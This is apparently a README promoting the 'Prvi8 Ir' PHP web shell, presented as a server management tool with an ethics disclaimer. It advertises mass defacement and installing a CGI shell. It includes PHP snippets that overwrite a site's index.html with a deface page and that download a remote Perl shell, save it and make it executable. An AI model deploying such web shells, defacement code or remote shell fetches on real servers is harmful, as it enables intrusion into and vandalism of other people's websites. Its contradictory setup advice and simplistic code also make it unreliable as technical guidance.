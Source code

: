 # Prvi8 Ir PHP Web Shell 🛠️

A comprehensive guide and explanation for the PHP web shell script designed for server management, file operations, and extended control features. This tool is powerful and should be used responsibly and ethically.


![Prvi8-Ir-Web-Shell](https://r00t-shell.com/wp-content/uploads/2025/02/Prvi8-Ir-Web-Shell.png)
*Prvi8-Ir-Web-Shell - Prvi8 Ir Web Shell: Explanation and Usage*


## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
  - [File Deletion](#file-deletion)
  - [File Upload](#file-upload)
  - [Mass Defacement](#mass-defacement)
  - [CGI Shell Installation](#cgi-shell-installation)
- [Security Considerations](#security-considerations)
- [Disclaimer](#disclaimer)
- [Conclusion](#conclusion)

## Overview

The **PHP Web Shell** is a script that provides detailed controls to manage your server. It allows for file management, server information retrieval, mass defacement operations, and even the installation of a CGI-based shell. This README.md outlines its features, setup instructions, and important security measures to ensure safe and ethical operation.

## Features

- **Server Information:** Displays critical server details such as operating system, IP address, software versions, and security settings.
- **File Management:** Enables listing, deleting, renaming, editing, and changing file or directory permissions.
- **File Upload:** Provides a secure interface for uploading files to the server.
- **Mass Defacement:** Facilitates copying a specified file to multiple directories to execute a mass defacement (use responsibly).
- **CGI Shell Installation:** Installs a CGI-based shell to extend server control capabilities.
- **Directory and File Creation:** Supports creating new directories and files on the server for flexible management.

## Installation

1. **Upload the Script:** Place the PHP script on your server in a directory accessible via a web browser.
2. **Set Permissions:** Verify that file and directory permissions are correctly set to prevent unauthorized access.
3. **Configure Your Environment:** Disable dangerous PHP functions (e.g., `exec`, `shell_exec`, `system`) to bolster security.
4. **Access via Browser:** Open your web browser and navigate to the script’s URL to get started.

## Usage

The web shell presents a user-friendly interface with various functionalities. Navigate through the options to manage files, view server details, execute a mass defacement, or install a CGI shell.

### File Deletion

```php
if (is_file('file.txt')) {
    unlink('file.txt');
}
```
```php
File Upload
if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploaded_file.txt');
}
```
Mass Defacement
```php
$deface_file = 'deface.html';
$target_dir = '/var/www/html/';
copy($deface_file, $target_dir . 'index.html');
```
CGI Shell Installation
```php
$cgi_code = file_get_contents('https://example.com/cgi_shell.pl');
file_put_contents('shell.pl', $cgi_code);
chmod('shell.pl', 0755);
```
Security Considerations
Disable Risky PHP Functions: Functions such as exec, shell_exec, and system should be turned off to reduce potential exploits.
Strict File Upload Controls: Validate all uploads and limit permissions to prevent the execution of harmful scripts.
Use a Firewall: Implement a firewall to monitor traffic and block suspicious activity.
Regular Scans: Conduct periodic security audits and scans to detect and mitigate vulnerabilities.
Disclaimer

Warning: This PHP Web Shell is a powerful tool that can be misused if handled irresponsibly. It is intended solely for educational purposes or for managing servers that you own, or for which you have explicit permission to administer. Unauthorized use is illegal and unethical. Always prioritize security and adhere to legal guidelines when using this tool.

Conclusion

The PHP Web Shell provides extensive functionality for server management with robust features and flexibility. By following the security measures and ethical practices outlined in this document, you can effectively manage server operations without compromising safety. Use this tool responsibly and ensure all activities are conducted in compliance with applicable laws and guidelines.

For further inquiries, bug reports, or contributions, please contact the repository maintainers or refer to the included documentation.
